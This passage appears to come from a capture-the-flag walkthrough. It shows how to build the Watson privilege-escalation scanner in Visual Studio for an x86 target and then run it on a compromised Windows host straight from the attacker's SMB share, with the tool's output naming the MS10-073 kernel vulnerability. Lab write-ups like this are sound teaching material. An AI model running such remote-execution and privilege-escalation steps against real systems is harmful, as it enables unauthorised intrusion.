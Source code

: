 I’ll go to the Visual Studio menu and open Project -> Watson Properties. I’ll
make sure Application is selected on the menu on the left, and there I should
be able to set the “Target framework”:

![1550869015761](https://0xdfimages.gitlab.io/img/1550869015761.png)

I’ll set it to 3.5 since that’s the latest that’s installed on target.

Next, I’ll go to Build –> Configuration Manager. This let’s me set the
architecture (x86 vs x64) for the output binary. I’ll remember from the
`systeminfo` output that it was a x64 processor, but that the OS was x86:

    
    
    System Type:               X86-based PC
    Processor(s):              1 Processor(s) Installed.         
                               [01]: x64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
    

I’ll change the Platform to x86:

![1550869563858](https://0xdfimages.gitlab.io/img/1550869563858.png)

Now I’ll go to Build –> Build Watson. In the bottom Window I should see:

![1550869614577](https://0xdfimages.gitlab.io/img/1550869614577.png)

I’ll go to that path, and get a copy of the output exe, and transfer it back
to my Kali box and drop it in my `smb` folder.

#### Running It

Now I’ll run it directly from the SMB share, just like I did `nc`:

    
    
    c:\Windows\Microsoft.NET\Framework>\\10.10.14.14\share\Watson.exe
    \\10.10.14.14\share\Watson.exe
      __    __      _
     / / /\ \ \__ _| |_ ___  ___  _ __
     \ \/  \/ / _` | __/ __|/ _ \| '_ \
      \  /\  / (_| | |_\__ \ (_) | | | |
       \/  \/ \__,_|\__|___/\___/|_| |_|
    
                               v0.1
    
                      Sherlock sucks...
                       @_RastaMouse
    
     [*] OS Build number: 7600
     [*] CPU Address Width: 32
     [*] Process IntPtr Size: 4
     [*] Using Windows path: C:\WINDOWS\System32
    
      [*] Appears vulnerable to MS10-073
       [>] Description: Kernel-mode drivers load unspecified keyboard layers improperly, which result in arbitrary code execution in the kernel.
       [>] Exploit: https://www.exploit-db.com/exploits/36327/
       [>] Notes: None.
    
